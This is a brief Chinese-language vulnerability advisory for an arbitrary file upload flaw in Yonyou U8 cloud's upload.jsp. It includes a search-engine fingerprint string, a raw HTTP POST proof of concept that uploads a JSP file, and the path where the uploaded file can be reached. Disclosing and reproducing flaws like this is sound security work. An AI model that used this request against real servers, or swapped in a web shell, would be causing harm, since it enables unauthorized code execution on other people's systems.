 # 用友 U8 cloud upload.jsp 任意文件上传漏洞

## 漏洞描述

用友 U8 cloud upload.jsp 文件存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

用友 U8 cloud

## 网络测绘

"开启U8 cloud云端之旅"

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697868186972-17bbaf78-0023-4136-9e3e-1d2cbb040c78.png)

验证POC

```php
POST /linux/pages/upload.jsp HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
filename: Test.jsp
Accept-Encoding: gzip

<% out.println("Test");%>
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697868208721-60df96f5-0fd0-4c88-99de-d44cb8e81479.png)

```php
/linux/xxx.jsp
```